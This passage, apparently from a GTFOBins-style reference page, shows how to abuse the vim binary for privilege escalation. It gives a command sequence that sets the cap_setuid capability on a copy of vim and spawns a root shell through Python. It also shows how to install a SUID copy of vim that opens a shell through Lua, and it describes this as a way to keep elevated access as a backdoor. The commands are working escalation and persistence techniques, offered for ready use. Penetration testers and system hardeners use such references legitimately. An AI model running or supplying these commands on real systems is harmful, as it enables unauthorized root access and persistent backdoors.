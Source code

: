 - This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
    
    ```
    cp $(which vim) .
    sudo setcap cap_setuid+ep vim
    
    ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    ```
    

## **Limited SUID**

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- This requires that `vim` is compiled with Lua support.
    
    ```bash
    sudo install -m =xs $(which vim) .
    
    ./vim -c ':lua os.execute("reset; exec sh")'
    ```